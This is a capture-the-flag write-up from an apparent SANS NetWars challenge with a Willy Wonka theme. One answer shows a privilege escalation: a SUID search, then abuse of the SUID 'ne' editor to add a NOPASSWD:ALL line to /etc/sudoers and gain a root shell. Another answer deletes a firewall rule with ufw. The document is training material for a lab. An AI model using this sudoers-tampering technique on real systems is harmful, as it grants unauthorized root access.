 We've sewn a secret path to root privileges in your workstation with a SUID 0 setting on an executable.
Exploit this escalation path and cat the file located at /root/rules.txt .


### **A5 - 'NetWars{NoTouchingNoMeddlingNoTasting}'**
```bash
contestwinner@oompa-loompa:~/inventingroom$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/ne

contestwinner@oompa-loompa:~/inventingroom$ ne
Press Escape > Now open a new file > Select /etc/sudoers > and add the following under root
contestwinner ALL=(ALL) NOPASSWD:ALL
Now save the /etc/sudoer file
contestwinner@oompa-loompa:~/inventingroom$ sudo /bin/bash
root@oompa-loompa:~/inventingroom# cat /root/rules.txt 
NetWars{NoTouchingNoMeddlingNoTasting}
root@oompa-loompa:~/inventingroom# 

```
________________________________________________________________________________________________________________________________________
## **Q6 - FIXING A HOLE**

There's a hole in the lickable - I mean uncomplicated - rewall, and we're concerned about our snozzberries!

With UID 0 privileges (as root), please use ```ufw``` to fix the hole - delete the rule that allows TCP/50413 in. Once it's patched up, 
look in /root/ for the flag we'll drop.

### **A5 - 'NetWars{ItTastesLikeSnozzberries}'**
```bash
root@oompa-loompa:/root# sudo ufw delete allow 50413/tcp

```
________________________________________________________________________________________________________________________________________

# Objective: WW - Fizzy Lifting Drink Room :star: :star:
Something very unusual in here. Bubbles, bubbles everywhere, but not a drop to drink. Yet.

There are our Fizzy Lifting Drinks. They fill you with gas, and the gas is so terrically lifting that it lifts you right off the 
ground like a balloon. But I daren't sell it yet. It's still too powerful.

Come along now; don't hang about. You're going to be wild about this next room.
